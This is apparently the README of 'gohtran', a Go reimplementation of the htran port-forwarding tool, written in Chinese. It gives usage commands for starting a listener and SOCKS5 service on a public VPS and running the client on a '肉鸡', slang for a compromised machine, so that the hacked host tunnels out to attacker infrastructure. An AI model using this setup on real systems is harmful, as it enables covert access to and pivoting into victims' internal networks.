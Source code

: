 # gohtran
使用golang 重复造了一个htran的轮子

因为go语言编译后的程序太大,只好把内网与公网执行段分开.

使用方式,首先在公网VPS上启动listener

listener  3389  33333     #第一个端口是客户端上线监听端口  第二个socks5服务监听端口

然后在肉鸡上执行
client ip:3389            #vps的ip和vps上监听的端口            
